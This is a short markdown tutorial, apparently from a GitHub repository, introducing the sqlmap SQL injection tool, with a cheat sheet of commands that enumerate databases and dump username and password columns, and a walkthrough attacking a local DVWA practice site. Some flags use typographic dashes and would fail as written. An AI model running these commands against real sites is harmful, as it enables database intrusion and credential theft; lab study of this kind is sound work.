 # sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1  

sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3  

sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie  

sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump  

//dump the data of the column "username" and "password"  


see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   
--cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" --batch -D dvwa -T users -C user,password --dump
```







